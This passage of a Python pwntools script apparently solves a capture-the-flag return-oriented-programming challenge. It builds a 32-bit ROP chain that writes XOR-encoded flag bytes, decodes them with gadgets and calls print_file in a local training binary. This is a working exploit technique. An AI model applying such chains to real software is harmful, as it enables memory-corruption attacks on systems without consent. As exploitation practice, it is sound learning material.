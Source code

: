 ```python
PL+=flagxored[:4]
PL+=p32(data)
PL+=p32(0)              # ebp
PL+=p32(g_write_edi)

# On ecrit "
PL+=p32(g_pop_esiediebp)
PL+=flagxored[4:8]
PL+=p32(data+4)
PL+=p32(0)              # ebp
PL+=p32(g_write_edi)

# data+2 xor 3
PL+=p32(g_pop_ebp)
PL+=p32(data+2)
PL+=p32(g_pop_ebx)
PL+=p32(3)
PL+=p32(g_xor_ebp)

# data+3 xor 3
# bl ne change pas
PL+=p32(g_pop_ebp)
PL+=p32(data+3)
PL+=p32(g_xor_ebp)

# data+4 xor 3
PL+=p32(g_pop_ebp)
PL+=p32(data+4)
PL+=p32(g_xor_ebp)

# data+6 xor 3
PL+=p32(g_pop_ebp)
PL+=p32(data+6)
PL+=p32(g_xor_ebp)

# Appel de print_file
PL+=p32(print_file)
PL+=p32(data)

io = process([elf.path])
if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)
    #io = gdb.debug([elf.path],gdbscript=gs)

# io.recvuntil(b"> ")
io.sendline(PL)
io.interactive()

```
